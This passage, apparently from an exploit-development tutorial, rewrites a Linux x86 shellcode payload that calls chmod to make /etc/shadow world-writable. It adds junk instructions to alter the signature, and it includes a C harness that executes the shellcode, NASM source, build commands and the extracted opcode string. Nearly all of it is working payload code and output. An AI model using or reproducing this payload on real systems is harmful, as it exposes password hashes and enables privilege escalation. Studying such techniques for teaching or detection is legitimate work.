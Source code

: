 ```c
            "\x89\xe3"          // mov ebx,esp
            "\x66\x68\xb6\x01"      // push word 0x1b6
            "\x59"              // pop ecx
            "\xb0\x0f"          // mov al,0xf
            "\xcd\x80"          // int 0x80
            "\xb0\x01"          // mov al,0x1
            "\xcd\x80";         // int 0x80
 
    printf("[*] ShellCode size (bytes): %d\n\n", sizeof(shellcode)-1 );
    (*(void(*)()) shellcode)();
     
    return 0;
}
```

We're going to be working with the assembly comments he provided in his C code. There isn't much room for us to work with here, so we'll most likely be adding junk operations and increasing the size a bit.

```nasm
global _start


section .text

_start:

	xor ecx, ecx		  ; clearing a different register at the start
	mul ecx			  ; this clears both EAX and EDX
	push edx		  ; finally get back around to pushing our null onto the stack but with a 2nd new register
	push dword 0x776f6461     ; this section is the same, but wanted to explain:
	push dword 0x68732f2f     ; we're just pushing '/etc/shadow' onto the stack here 
	push dword 0x6374652f
	mov edi,esp		  ; save stack pointer in different register
	xchg ebx, edi		  ; put stack pointer back into EBX
	push word 0x1ff		  ; push '777' instead of '666' (this is in octal)
	pop ecx
	sub ecx, 0x49		  ; get ECX back down to '666' by subtracting '111'
	mov al,0xf
	int 0x80
	mov al,0x1
	int 0x80
```

Assemble and link our code:
```terminal_session
root@kali:~# nasm -f elf32 chmod.nasm && ld -m elf_i386 chmod.o -o chmod_test
```

Dump the shellcode:
```terminal_session
root@kali:~# objdump -d ./chmod_test|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x52\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe7\x87\xdf\x66\x68\xff\x01\x59\x83\xe9\x49\xb0\x0f\xcd\x80\xb0\x01\xcd\x80"
```
